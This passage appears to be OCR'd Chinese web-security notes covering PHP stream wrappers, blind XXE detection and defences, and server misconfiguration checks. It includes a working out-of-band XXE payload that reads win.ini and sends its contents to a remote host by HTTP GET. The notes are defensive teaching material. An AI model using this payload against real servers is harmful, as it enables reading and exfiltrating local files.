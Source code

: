|         | phar           |         |       |

### php扩展协议

| scheme                                                       | extension required |
| ------------------------------------------------------------ | ------------------ |
| https<br />ftps                                              | openssl            |
| zip                                                          | zip                |
| ssh2.shell<br />ssh2.exec<br />ssh2.sftp<br />ssh2.tunnel<br />ssh2.scp | ssh2               |
| rar                                                          | rar                |
| ogg                                                          | oggvorbis          |
| expect                                                       | expect             |

## 检测方式-无回显

将test.dtd放在远程服务器上，远程加载dtd文件:`<!ENTITY % file SYSTEM "file:///c:/windows/win.ini"><!ENTITY % all "<!ENTITY send SYSTEM 'http://169.254.115.76/?%file;'>">%all;`

```xml-dtd
<?xml version="1.0"?><!DOCTYPE data SYSTEM "http://169.254.115.76/test.dtd"><name>&send;</name>
```

提交后，观察远程服务器上的访问日志是否存在测试目标的请求，win.ini文件内容以get提交的方式返回到远程服务器上

## 防御方法

- 对于php，常见的xml解析方法DOMDocument、SimpleXML、XMLReader都是基于expact解析器，默认不载入DTD，无漏洞。可以在php解析xml文件前使用libxml_disable_entity_loader(ture)禁止加载外部实体，并使用libxml_use_internal_errors()禁止报错
- 对于Java，设置DocumentBuilderFactory dbf=DocumentBuilderFactory.newInstance();dbf.setExpandEntityReferences(false);
- 对用户输入的xml数据过滤

# 服务器配置缺陷和信息泄露

## 检测方式

- 对网站目录进行直接访问查看是否可以浏览目录文件列表
- 查看默认中间件示例文件是否存在
- 通过目录扫描工具查看是否存在敏感目录
- 通过文件扫描工具查看是否存在敏感文件
- 通过手工提交畸形参数引起异常，查看异常信息
- 通过抓包查看响应中是否有敏感信息

## 防御方法

- 设置自定义错误跳转页，避免非200响应状态返回默认错误信息
- 关闭调试信息、中间件版本信息
- 关闭错误输出，当web应用出错统一返回错误页面或跳转首页
- 合理设置服务器文件访问权限
